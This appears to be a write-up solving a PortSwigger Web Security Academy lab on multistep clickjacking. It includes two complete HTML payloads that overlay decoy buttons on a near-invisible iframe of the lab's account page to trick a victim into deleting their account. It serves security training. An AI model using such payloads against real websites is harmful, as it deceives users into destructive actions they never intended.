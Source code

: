 
### Multistep clickjacking : PRACTITIONER

---

###### Solving this lab from Burp's browser.

> Given credentials `wiener:peter`.


> Login via the given credentials and head to the my-account page.

![](./screenshots/lab1-1.png)

> Choosing to delete account we are taken to a confirmation page.

![](./screenshots/lab5-1.png)

> Therefore, to impersonate this with a clickjacking payload, we need to prompt the user to click twice.

```HTML
<head> 
	<style> 
		#target_website { 
			position:relative; 
			width:600px; 
			height:600px; 
			opacity:0.1; 
			z-index:2; 
		} 
		#click_1 { 
			position:absolute; 
			top:400px; 
			left:100px; 
			z-index:1; 
		} 
		#click_2 {
			position:absolute; 
			top:500px; 
			left:200px; 
			z-index:1; 
		}
	</style> 
</head>
<body> 
	<div id="click_1"> first </div> 
	<div id="click_2"> second </div> 
	<iframe id="target_website" src="https://0a0000a403b3a23f81c961d800a30003.web-security-academy.net/my-account"> </iframe> 
</body>
```

> Place this payload into the exploit server and then store and view it.
> This is the testing payload, so the opacity of the target website is `0.1` until we can place the `click_1` on the delete account button, and the `click_2` on the yes to confirm deletion.

![](./screenshots/lab5-2.png)

> The final payload.

```HTMl
<head> 
	<style> 
		#target_website { 
			position:relative; 
			width:600px; 
			height:600px; 
			opacity:0.00001; 
			z-index:2; 
		} 
		#click_1 { 
			position:absolute; 
			top:540px; 
			left:700px; 
			z-index:1; 
		} 
		#click_2 {
			position:absolute; 
			top:300px; 
			left:198px; 
			z-index:1; 
		}
	</style> 
</head>
<body> 
	<div id="click_1"> click me first </div> 
	<div id="click_2"> click me next </div> 
	<iframe id="target_website" src="https://0a0000a403b3a23f81c961d800a30003.web-security-academy.net/my-account"> </iframe> 
</body>
```

> Delivering this exploit to victim completes the lab.

---

